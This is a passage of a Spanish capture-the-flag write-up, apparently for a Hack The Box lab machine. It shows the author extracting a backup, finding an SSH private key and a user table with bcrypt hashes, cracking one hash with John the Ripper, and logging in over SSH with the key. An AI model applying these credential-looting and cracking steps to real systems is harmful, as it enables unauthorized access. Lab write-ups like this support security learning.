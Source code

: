     Una vez descargado , `unzipearemos` el `.zip` para poder ver que encontramos en ese `backup`. 
    
    Dentro del `backup` encontramos estos 
    
    ```python
    charset  config  database_dump  export.report  metadata  system  version.txt
    ```
    
    Al explorar el contenido de las carpetas, encontramos una ruta que almacena un archivo **`id_rsa`**, el cual podríamos intentar utilizar para conectarnos por `SSH`.
    
    ```python
    config/projects/AllProjects/pluginData/ssh_keys
    ```
    
    Pero aún nos queda saber con qué usuario nos conectaremos.
    Nos dirigimos a la carpeta `database_dump` y encontramos un archivo llamado `users`, el cual llama bastante nuestra atención. Si usamos `cat` para ver su contenido, observamos hashes que podríamos intentar descifrar con `John`
    
    ```python
    ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
    1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1723754735147, BCRYPT
    2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
    11, admin.03tq, $2a$07$ssCrJlQub3j6JilRvlqtbOVQuzhwxRPcuWNOylHgTr1q7APg727RK, , admin.03tQ@lol.omg, 1723753919282, BCRYPT
    12, city_adminvb7m, $2a$07$MjRIMfFQyaBzNAy8BVbS..snX3Zz0npHUZP7wdonGIdN9oxtkqYyS, , angry-admin@funnybunny.org, 1723754746653, BCRYPT
    ```
    
    Hemos encontrado la contraseña `piper123`, la cual nos será útil más adelante
    
    ```python
    john --wordlist=wordlist hash
    Using default input encoding: UTF-8
    Loaded 4 password hashes with 4 different salts (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 128 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Warning: Only 1 candidate left, minimum 6 needed for performance.
    piper123         (?)
    1g 0:00:06:56 DONE (2024-08-15 23:43) 20.00g/s 20.00p/s 80.00c/s 80.00C/s piper123
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    
  # Acceso a la máquina con ssh
    
    Ahora nos conectaremos por `ssh` primero de todo le damos permisos `chmod 600 id_rsa` y luego `ssh -i john@10.10.11.13 -i id_rsa`
    
    ```python
    ssh john@10.10.11.13 -i id_rsa
    Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)
    